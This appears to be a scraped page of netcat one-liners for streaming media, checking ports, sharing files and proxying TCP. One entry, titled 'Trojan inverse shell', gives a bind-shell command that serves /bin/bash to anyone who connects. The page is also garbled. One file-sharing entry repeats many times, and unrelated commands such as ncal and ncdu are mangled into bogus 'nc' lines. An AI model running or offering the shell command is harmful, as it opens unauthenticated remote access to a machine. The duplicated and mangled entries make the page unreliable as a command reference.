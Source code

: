 ##### mp3 streaming

   nc  -l -p 2000 < song.mp3

##### Stream and copy a video from lan

   nc  HOST PORT | tee movie.mp4 | mplayer -

##### Trojan inverse shell

   nc  -l -p 2000 -e /bin/bash

##### determine if tcp port is open

   nc  -zw2 www.example.com 80 && echo open

##### Complete TCP Handshake on a given host-port

   nc  -zvw 1 host port

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Show the date of easter

   nc al -e

##### Create a single-use TCP (or UDP) proxy

   nc  -l -p 2000 -c "nc example.org 3000"

##### ncdu - ncurses disk usage

   nc du directory_name

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext
